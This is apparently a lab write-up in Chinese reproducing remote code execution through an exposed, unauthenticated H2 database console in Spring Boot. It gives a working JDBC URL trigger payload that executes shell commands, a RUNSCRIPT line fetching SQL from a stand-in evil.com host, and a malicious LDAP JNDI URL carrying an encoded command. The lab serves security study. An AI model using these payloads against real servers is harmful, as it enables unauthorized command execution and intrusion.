

# H2 数据库 Web 控制台未授权访问

H2数据库是一个Java的嵌入式内存数据库。当Spring Boot配合H2数据库使用时，如果设置了以下选项，其自带的Web管理页面将可以被外部访问，且没有用户验证：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

这个管理页面支持使用JNDI加载JDBC驱动，攻击者可以利用JDBC攻击或JNDI注入来执行任意命令。

参考链接：

- <https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e>
- <https://www.exploit-db.com/exploits/45506>
- <https://github.com/h2database/h2database/pull/1580>
- <https://github.com/h2database/h2database/pull/1726>
- <https://github.com/h2database/h2database/issues/1225>

## 环境搭建

启动一个带有H2数据库和内嵌Tomcat的Spring Boot应用：

```
docker compose up -d
```

容器启动后，Spring Boot应用将监听在`http://your-ip:8080`，默认情况下管理页面地址为`http://your-ip:8080/h2-console/`。

## 漏洞复现

这个漏洞有两种利用方式，一种是[JDBC攻击](https://su18.org/post/jdbc-connection-url-attack/)，另一种是[JNDI注入](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)。

### JDBC攻击

H2控制台允许用户指定任意JDBC URL。通过指定`jdbc:h2:mem:testdb`并使用JDBC的`init`属性，我们可以在本地内存服务器中执行任意SQL语句。

H2数据库支持一些特殊且危险的命令，例如：

- `RUNSCRIPT FROM 'http://evil.com/script.sql'`
- `CREATE ALIAS func AS code ...; CALL func ...`
- `CREATE TRIGGER ... AS code ...`

我们可以使用`CREATE TRIGGER`构造恶意SQL语句，然后将其放入JDBC URL中：

```
jdbc:h2:mem:testdb;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;
```

在H2控制台中点击"Test Connection"并捕获请求，然后修改请求中的JDBC URL即可成功执行`id`命令。


### JNDI注入

1.4.198版本及以后的H2控制台中，添加了新的[`-ifNotExists`选项](https://github.com/h2database/h2database/pull/1726)，默认禁用远程数据库创建，这将导致攻击者必须找到一个已存在的H2数据库才能执行上述JDBC攻击。

如果无法找到合适的H2数据库，我们也可以利用JNDI注入来执行任意命令。这里使用[JNDIExploit](https://github.com/vulhub/JNDIExploit)工具来利用这个漏洞。

启动`JNDIExploit`并根据项目文档中给出的信息来填写表单：



`javax.naming.InitialContext`是JNDI工厂类名，URL `ldap://172.17.0.1:1389/TomcatBypass/Command/Base64/dG91Y2ggL3RtcC9zdWNjZXNz`是恶意JNDI URL。

点击“Test Connection”后，恶意JNDI服务器收到请求：


可见，`touch /tmp/success`命令已经成功执行：


